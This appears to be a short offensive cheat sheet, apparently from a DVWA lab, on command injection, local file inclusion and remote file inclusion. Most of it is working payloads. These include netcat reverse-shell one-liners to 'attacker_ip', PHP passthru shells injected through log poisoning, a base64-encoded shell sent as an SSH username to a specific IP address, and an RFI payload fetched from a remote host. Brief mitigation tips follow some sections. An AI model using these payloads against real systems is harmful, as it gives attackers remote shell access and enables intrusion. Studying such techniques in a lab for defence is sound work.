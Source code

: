 **Exploiting basic code execution**
```cmd
nc -vv -l -p 8080
attacker_ip; nc -e /bin/sh attacker_ip 8080
attacker_ip | nc -e /bin/sh attacker_ip 8080
```
**Mitigation code execution**
> Don't use dengerous functions.
> Filter use input before execution.


**Shell from Local File Inclusion**
> Try to inject code into readable files
> /proc/self/environ
> /var/log/auth.log
> /var/log/apache2/access.log

```cmd
#in attack mechine
nc -vv -l -p 8888

#inject in site
<?passthru("nc -e /bin/sh attacker_ip 8888")?>
#base64_encode nc -e /bin/sh attacker_ip 8888 = bmMgLWUgL2Jpbi9zaCAxOTIuMTk2LjMwLjIxMiA4ODg4

ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxOTIuMTk2LjMwLjIxMiA4ODg4'));?>"@45.114.84.185
```


**Remote File Inclusion**
```cmd
#If allow_url_fopen = On in php.ini
<?php
passthru("nc -e /bin/sh attacker_ip 8888");
?>
#save to a domain or real ip as reverse.txt.

#listen in attack mechine
nc -vv -l -p 8888 

#hit in vulnerable mechine
10.20.14.204/dvwa/vulnerabilities/fi/?page=http://domain_or_real_ip/reverse.txt?

#another
10.20.14.204/dvwa/vulnerabilities/fi/?page=hTTp://domain_or_real_ip/reverse.txt?
```

**Mitigation File Inclusion**
> Prevent remote file inclusion
> > Disable allow_url_fopen
> > Disable allow_url_include

> Prevent local file inclusion
> > Use static file inclusion
